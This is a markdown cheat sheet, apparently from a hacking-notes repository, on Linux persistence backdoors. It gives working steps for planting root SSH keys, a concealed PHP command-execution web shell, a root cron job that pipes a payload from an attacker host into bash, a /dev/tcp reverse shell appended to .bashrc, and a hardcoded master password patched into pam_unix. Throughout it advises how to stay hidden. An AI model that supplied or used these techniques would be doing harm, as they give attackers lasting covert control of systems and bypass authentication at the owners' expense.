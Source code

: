# Backdoor 

## backdoor using ssh
The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.
- ssh backdoor 
	```
	ssh-keygen
	```
	- Now that we have 2 keys. 1 private key and 1 public key, we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized\_keys
	- give the private key the right permissions using : chmod 600 id\_rsa

## PHP backdoor
you can try creating a php file with any name and putting inside this piece of code

- php backdoor code
	```php
	<?php  
    if (isset($\_REQUEST\['cmd'\])) {  
        echo "<pre>" . shell\_exec($\_REQUEST\['cmd'\]) . "</pre>";  
    }  
	?>
	```
	
**tips**
1\. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.

2\. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## cronjob backdoor
this backdoor consist of creating a cronjob!
take a look at your cronjobs file, which is /etc/cronjob
Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.
- crontab script
	```
	* *     * * *   root    curl http://<yourip>:8080/shell | bash
	```
	Notice that we put a "\*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

	We first use "curl" to download a file , and then we pipe it to "bash"

	The contents of the "shell" file that we are using are simply :
	```bash
	#!/bin/bash 
	bash -i >& /dev/tcp/ip/port 0>&1
	```
	We would have to run an HTTP server serving our shell.

	You can achieve this by running : "python3 -m http.server 8080"  
	Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!
	Don't forget to listen on your specified port with "nc -nvlp <port>"
	
## .bashrc backdoor
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".
```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
One important thing is to always have your nc listener ready as you don't know when your user will log on.

This attack is very sneaky as nobody really thinks about ever checking their ".bashrc" file.

On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

## pam unix 
	We can see that we added a new line to our code : "if (strcmp(p, "0xMitsurugi") != 0 )"

Okay, if this code looks confusing to you at first, don't worry!

We'll break it down together!

So first, we have to know what the function "strcmp" does.

This function basically compares 2 strings.

In the screenshot above, we compare the variable "p" and the string "0xMitsurugi".

The variable "p" stands for the user's supplied password. In other words, the password that the user-supplied.

You can also see "!=0" at the end of the statement. This means "if not successful". So, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are NOT the same... the function "unix\_verify\_password" will be used.

But on the other hand, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are the same, the authentication is a success. We mark the success by using "PAM\_SUCCESS;"

So this backdoor essentially consists of adding your own password to "pam\_unix.so"

Since you know the password that you added into the file, you will always be able to authenticate with that password until it's removed from "pam\_unix.so"

So let's do a little recap:

Say a user types the password "password123" and tries to authenticate. We will compare his password(password123) to the string "0xMitsurugi".

If those two strings match, the authentication is successful. But those 2 strings do not match, so the authentication will not be

successful and will rely on the "unix\_verify\_password" function. When using the "unix\_verify\_password" function to authenticate, the function takes

the user's password from "/etc/shadow" and compares it to the user's supplied password. This is how the intended authentication system should work.

However, this technique is called a backdoor as you add your own password that you can always use as long as nobody takes it out of "pam\_unix.so".

This backdoor is really hard to spot, as once again, nobody really thinks about looking into such files.

Since this method is slowly becoming more and more popular, you probably won't be able to do it every time, as everybody would slowly but surely, understand how to protect themselves.

Resource used : [http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)

Here is a GitHub repository containing a script automating this process of creating a backdoor: [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
	

	
	